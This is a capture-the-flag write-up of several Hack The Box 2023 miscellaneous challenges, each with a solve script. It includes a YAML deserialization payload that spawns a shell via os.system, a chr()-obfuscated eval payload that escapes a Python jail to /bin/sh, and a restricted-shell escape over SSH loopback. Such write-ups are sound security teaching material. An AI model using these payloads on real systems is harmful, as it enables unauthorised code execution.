











## Persistence

**Description:** Thousands of years ago, sending a GET request to /flag would grant immense power and wisdom. Now it's broken and usually returns random data, but keep trying, and you might get lucky... Legends say it works once every 1000 tries.

**Note:** This challenge had a docker but it might be closed at the time you are reading this. All needed files will be given in the write-ups.

**Category:** Miscellaneous

**Difficulty:** Very Easy

We are given a website to work with. Initially, connection to the website would result in **"404 Not Found"**. I then went to read the descriptions, and from it, I got to know that we should send at least **1000 GET requests** to `/flag` to maybe get the flag.

I used this below Python script to automate the task.

```python
import requests

url = "http://64.227.41.83:30380/flag"
for i in range(10000):
    response = requests.get(url)
    content = response.content
    if b'HTB{' in content:
        print(content)
        break
```

After a short wait, we got the flag.

Flag is: **HTB{y0u_h4v3_p0w3rfuL_sCr1pt1ng_ab1lit13S!}**

## Hijack

**Description**: The security of the alien spacecrafts did not prove very robust, and you have gained access to an interface allowing you to upload a new configuration to their ship's Thermal Control System. Can you take advantage of the situation without raising any suspicion?

**Note:** This challenge had a docker but it might be closed at the time you are reading this. All needed files will be given in the write-ups.

**Category:** Miscellaneous

**Difficulty:** Easy

Let's try to connect to the challenge instance.



And let's try to test out those options.


`ISFweXRob24vb2JqZWN0Ol9fbWFpbl9fLkNvbmZpZyB7SVJfc3BlY3Ryb21ldGVyX3RlbXA6ICcxNScsIGF1dG9fY2FsaWJyYXRpb246ICdvbicsCiAgcHJvcHVsc2lvbl90ZW1wOiAnMzQzNCcsIHNvbGFyX2FycmF5X3RlbXA6ICcxMicsIHVuaXRzOiBmfQo=`

The function in question generates a base64 encoded string representing a serialized object. To provide some context, serialization is the process of storing an object, such as an array or class, in a database for later retrieval. When the application needs to access the object, it unserializes it, or loads it from the database using a function. This can improve the efficiency of Object-Oriented Programming.

It is important to note, however, that serialized objects should not be vulnerable to manipulation by users. If a user creates a malicious object, it could execute unwanted code. This challenge illustrates this point by presenting us with a serialized object and its corresponding base64 encoding. This is just one example of how serialized objects can be used, and it is essential to be aware of their potential risks.

Let's take a look at the next options. The application is requesting a base64 encoded string of a serialized object.


 
Upon examining the serialized object provided by the application, I have determined that it is a YAML-formatted Python serialized object. This [article](https://net-square.com/yaml-deserialization-attack-in-python.html) serves as an excellent illustration of how attackers can leverage YAML-based exploits to execute arbitrary code.

Here is the script to generate a serialized object.

```python
import yaml
import os
import base64
class Test(object):
  def __reduce__(self):
    return (os.system, ('sh',))
serialized_data = yaml.dump(Test()) # serializing data
print(base64.b64encode(serialized_data.encode()).decode())
```

Let's grab the result and throw it to the application.


Flag is: **HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}**

## Restricted

**Given file:** [Get it here!](https://drive.google.com/file/d/1bu8crqTZ-PEVLRN5Dk6OhVWADcZIoYw3/view?usp=sharing)

**Description:** You 're still trying to collect information for your research on the alien relic. Scientists contained the memories of ancient egyptian mummies into small chips, where they could store and replay them at will. Many of these mummies were part of the battle against the aliens and you suspect their memories may reveal hints to the location of the relic and the underground vessels. You managed to get your hands on one of these chips but after you connected to it, any attempt to access its internal data proved futile. The software containing all these memories seems to be running on a restricted environment which limits your access. Can you find a way to escape the restricted environment?

**Note:** This challenge had a docker but it might be closed at the time you are reading this. All needed files will be given in the write-ups.

**Category:** Miscellaneous

**Difficulty:** Easy

We are provided with a server and it's source. From the source, we know that it is a **SSH server**. 

One thing particular about this server is that, if the username is **restricted**, we will not need to provide a password to authenticate, but the user will be in restricted shell mode.



To cope with this, we can use a trick called **SSH self loop-back**, which means we initiate a SSH connection inside a SSH, since restricted shell doesn't prevent us from using SSH commands.

First, we connect to the SSH server using the username **restricted**.



From the source, we also know that the exposed port is **1337**. Then, we can use SSH self loop-back to have the permission to use cat, since we also know that `flag.txt` is changed to `flag_*` (with * represents some random bytes) and lies in plainsight.





Flag is: **HTB{r35tr1ct10n5_4r3_p0w3r1355}**

## Remote computation

**Description:** The alien species use remote machines for all their computation needs. Pandora managed to hack into one, but broke its functionality in the process. Incoming computation requests need to be calculated and answered rapidly, in order to not alarm the aliens and ultimately pivot to other parts of their network. Not all requests are valid though, and appropriate error messages need to be sent depending on the type of error. Can you buy us some time by correctly responding to the next 500 requests?

**Note:** This challenge had a docker but it might be closed at the time you are reading this. All needed files will be given in the write-ups.

**Category:** Miscellaneous

**Difficulty:** Easy

The program asked us to calculate 500 math expressions with the following conditions.

```
Results
---
All results are rounded
to 2 digits after the point.
ex. 9.5752 -> 9.58

Error Codes
---
* Divide by 0:
This may be alien technology,
but dividing by zero is still an error!
Expected response: DIV0_ERR

* Syntax Error
Invalid expressions due syntax errors.
ex. 3 +* 4 = ?
Expected response: SYNTAX_ERR

* Memory Error
The remote machine is blazingly fast,
but its architecture cannot represent any result
outside the range -1337.00 <= RESULT <= 1337.00
Expected response: MEM_ERR
```

At first I tried to round the numbers the mathematical way but then I realised the remote server was using the *round()* function of python the whole time.

So yeah here's the solve script.

```python
from decimal import Decimal, ROUND_HALF_UP, ROUND_HALF_DOWN
from pwn import *

io = remote('144.126.196.198', 30843)
print(io.recvuntil(b'>'))
io.sendline(b'1')
print(io.recvuntil(b'...'))
for _ in range(500):
    node = io.recvuntil(b']')
    if b'!' in node:
        log.info("BRUH!!!!!!!!!!!") # In case something goes wrong (and it did)
        break
    print(node)
    io.recv(2)
    equation = io.recvuntil(b'=')[:-1].decode()
    print(equation, end='=')
    print(io.recvuntil(b'>'))
    try: 
        cal = eval(equation)
        if cal < -1337 or cal > 1337:
            log.info('MEM_ERR')
            io.sendline(b"MEM_ERR")
        else:
            res = round(cal, 2)
            # if cal >= 0:
            #     res = Decimal(str(cal)).quantize(Decimal('1.00'), rounding=ROUND_HALF_UP)
            # else:
            #     res = Decimal(str(cal)).quantize(Decimal('1.00'), rounding=ROUND_HALF_DOWN)
            log.info('SUCCESS WITH RESULT: {}'.format(str(res)))
            io.sendline(str(res).encode())
    except SyntaxError:
        log.info('SYNTAX_ERR')
        io.sendline(b"SYNTAX_ERR")
    except ZeroDivisionError:
        log.info('DIV0_ERR')
        io.sendline(b"DIV0_ERR")
io.interactive()
```



Flag is: **HTB{d1v1d3_bY_Z3r0_3rr0r}**

## Janken

**Given file:** [Get it here!](https://drive.google.com/file/d/1h0_q2AoNESOKYubO_wu8TCGAk_T9WVWC/view?usp=sharing)

**Description:** As you approach an ancient tomb, you're met with a wise guru who guards its entrance. In order to proceed, he challenges you to a game of Janken, a variation of rock paper scissors with a unique twist. But there's a catch: you must win 100 rounds in a row to pass. Fail to do so, and you'll be denied entry.

**Note:** This challenge had a docker but it might be closed at the time you are reading this. All needed files will be given in the write-ups.

**Category:** Miscellaneous

**Difficulty:** Easy

There are 2 noticable functions called within **main()** which is **game()** and **get_prize()**.

The **get_prize()** function simply gives us the flag so we won't go too deep into it. But in order for this function to be called. We have to win 100 games of rock, paper, scissors. A.K.A. the **game()** function.

Having analyzed it, we got the following code:

```c
int game()
{
  unsigned int v0; // eax
  size_t i; // [rsp+0h] [rbp-80h]
  __int64 v3; // [rsp+8h] [rbp-78h]
  __int64 v4[4]; // [rsp+10h] [rbp-70h]
  char *needle[4]; // [rsp+30h] [rbp-50h]
  __int64 buf[6]; // [rsp+50h] [rbp-30h] BYREF

  buf[5] = __readfsqword(0x28u);
  v0 = time(0LL);
  srand(v0);
  v3 = rand() % 3;
  v4[0] = (__int64)"rock";
  v4[1] = (__int64)"scissors";
  v4[2] = (__int64)"paper";
  memset(buf, 0, 32);
  needle[0] = "paper";
  needle[1] = "rock";
  needle[2] = "scissors";
  fwrite(&unk_2540, 1uLL, 0x33uLL, stdout);
  read(0, buf, 31uLL);
  fprintf(
    stdout,
    "\n[!] Guru's choice: %s%s%s\n[!] Your  choice: %s%s%s",
    "\x1B[1;31m",
    (const char *)v4[v3],
    "\x1B[1;36m",
    "\x1B[1;32m",
    (const char *)buf,
    "\x1B[1;36m");
  for ( i = 0LL; i < strlen((const char *)buf); ++i )
  {
    if ( ((*__ctype_b_loc())[*((char *)buf + i)] & ' \0') != 0 )
    {
      *((_BYTE *)buf + i) = 0;
      break;
    }
  }
  if ( !strstr((const char *)buf, needle[v3]) )
  {
    fprintf(stdout, "%s\n[-] You lost the game..\n\n", "\x1B[1;31m");
    exit(22);
  }
  return fprintf(stdout, "\n%s[+] You won this round! Congrats!\n%s", "\x1B[1;32m", "\x1B[1;36m");
}
```

We noticed that the program (Guru) chooses a random number from 0 to 2, which is rock, paper, scissors accordingly. It then checks if our input contains the string that can win against its choice using the [strstr()](https://man7.org/linux/man-pages/man3/strstr.3.html) function.

In other words, if Guru chooses **rock**, then if our input contain the string **paper**, we win.

We can exploit the **strstr()** by spamming **rockpaperscissors** 100 times or write a script to do it for us.

```python
from pwn import *

io = remote('68.183.37.122', 32161)
print(io.recv())
io.sendline(b'1')
for _ in range(100):
    print(io.recv())
    io.sendline(b'rockpaperscissors')
io.interactive()
```



Flag is: **HTB{r0ck_p4p3R_5tr5tr_l0g1c_buG}**

## nehebkaus trap

**Description:** In search of the ancient relic, you go looking for the Pharaoh's tomb inside the pyramids. A giant granite block falls and blocks your exit, and the walls start closing in! You are trapped. Can you make it out alive and continue your quest?

**Note:** This challenge had a docker but it might be closed at the time you are reading this. All needed files will be given in the write-ups.

**Category:** Miscellaneous

**Difficulty:** Medium

A classic pyjail challenge with no source code. It filtered out some special characters like `' " _ . /` so we couldn't directly execute any code.

One way to bypass this is to break down the string of code we want to execute into individual characters and concatenate them together using the *+* operator.

We can bypass the `'` and `"` filter simply by using `chr(hex-value-of-the-ascii-character)` to make the character we want.

For this I used `eval("__import__('os').system('/bin/sh')")`. The payload for this is:

```
eval(chr(0x5f)+chr(0x5f)+chr(0x69)+chr(0x6d)+chr(0x70)+chr(0x6f)+chr(0x72)+chr(0x74)+chr(0x5f)+chr(0x5f)+chr(0x28)+chr(0x27)+chr(0x6f)+chr(0x73)+chr(0x27)+chr(0x29)+chr(0x2e)+chr(0x73)+chr(0x79)+chr(0x73)+chr(0x74)+chr(0x65)+chr(0x6d)+chr(0x28)+chr(0x27)+chr(0x2f)+chr(0x62)+chr(0x69)+chr(0x6e)+chr(0x2f)+chr(0x73)+chr(0x68)+chr(0x27)+chr(0x29))
```

Now with all the pieces together, let's send our exploit.


Flag is: **HTB{y0u_d3f34t3d_th3_sn4k3_g0d!}**

## The Chasm's Crossing Conundrum

**Description:** As you and your trusty team of local pyramid experts stand at the precipice of the chasm, you catch a glimpse of the otherworldly relic glowing tantalizingly in the distance. But the final obstacle looms ahead - a narrow, unstable bridge that threatens to send you all tumbling into the depths below. It won't hold all of you at once. Time is running out, and the charge on your flashlight is dwindling. The chasm seems to be closing in, as if it's trying to swallow you whole. With each step, you feel the weight of the task at hand. The fate of your team, and perhaps even the world, rests on your shoulders. Can you summon the courage and skill to make it across in time, and claim the relic that lies just beyond your grasp?

**Note:** This challenge had a docker but it might be closed at the time you are reading this. All needed files will be given in the write-ups.

**Category:** Miscellaneous

**Difficulty:** Hard

Classic bridge and torch problem. Here's the instruction of the game.

```
☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ 
☠                                                                             ☠
☠  [*] The path ahead is treacherous.                                         ☠
☠  [*] You have to find a viable strategy to get everyone across safely.      ☠
☠  [*] The bridge can hold a maximum of two persons.                          ☠
☠  [*] The chasm lurks on either side of the bridge waiting for those         ☠
☠      who think they can get across in total darkness.                       ☠
☠  [*] If two persons get across, one must come back with the flashlight.     ☠
☠  [*] The flashlight has energy only for a limited amount of time.           ☠
☠  [*] The time required for two persons to cross, is dictated by the slower. ☠
☠  [*] The answer must be given in crossing and returning pairs. For example, ☠
☠      [1,2],[2],... . This means that persons 1 and 2 cross and 2 gets back  ☠
☠       with the flashlight so others can cross.                              ☠
☠                                                                             ☠
☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ ☠ 
```

There's only one optimal solution for every number of people. You can find it everywhere on the internet so I won't write it here.

One thing I noticed that the program only has 3 cases which is 6, 7 or 8 people. So instead of writing the general solution, I solved each cases individually.

Here's the script.

```python
from pwn import *

# take second element for sort
def takeSecond(elem):
    return elem[1]

def man8(elem):
    res = f'[{elem[0][0]},{elem[1][0]}],[{elem[0][0]}],[{elem[6][0]},{elem[7][0]}],[{elem[1][0]}],'
    res += f'[{elem[0][0]},{elem[1][0]}],[{elem[0][0]}],[{elem[4][0]},{elem[5][0]}],[{elem[1][0]}],'
    res += f'[{elem[0][0]},{elem[1][0]}],[{elem[0][0]}],[{elem[2][0]},{elem[3][0]}],[{elem[1][0]}],'
    res += f'[{elem[0][0]},{elem[1][0]}]'
    return res.encode()

def man6(elem):
    res = f'[{elem[0][0]},{elem[1][0]}],[{elem[0][0]}],[{elem[4][0]},{elem[5][0]}],[{elem[1][0]}],'
    res += f'[{elem[0][0]},{elem[1][0]}],[{elem[0][0]}],[{elem[2][0]},{elem[3][0]}],[{elem[1][0]}],'
    res += f'[{elem[0][0]},{elem[1][0]}]'
    return res.encode()

def man7(elem):
    res = f'[{elem[0][0]},{elem[1][0]}],[{elem[0][0]}],[{elem[5][0]},{elem[6][0]}],[{elem[1][0]}],'
    res += f'[{elem[0][0]},{elem[1][0]}],[{elem[0][0]}],[{elem[3][0]},{elem[4][0]}],[{elem[1][0]}],'
    res += f'[{elem[0][0]},{elem[1][0]}],[{elem[0][0]}],[{elem[0][0]},{elem[2][0]}]'
    return res.encode()

# list
person = []

io = remote('68.183.37.122', 31392)
io.recvuntil(b'> ')
io.sendline(b'2')
io.recvuntil(b'flashlight.\n\n')
while(1):
    per = io.recvline(keepends=False)
    if b'flashlight' in per:
        break
    per = per.decode().split()
    person.append((int(per[1]), int(per[4])))
person.sort(key=takeSecond)
if len(person)==8:
    ret = man8(person)
elif len(person)==7:
    ret = man7(person)
else:
    ret = man6(person)
print(ret)
io.recvuntil(b'> ')
io.sendline(ret)
io.interactive()
```



Flag is: **HTB{4cro55_th3_br1dg3_4nd_th3_ch4sm_l13s_th3_tr34sur3}**

## Original Posts

- [From FazeCT](https://fazect.github.io/htb2023/)

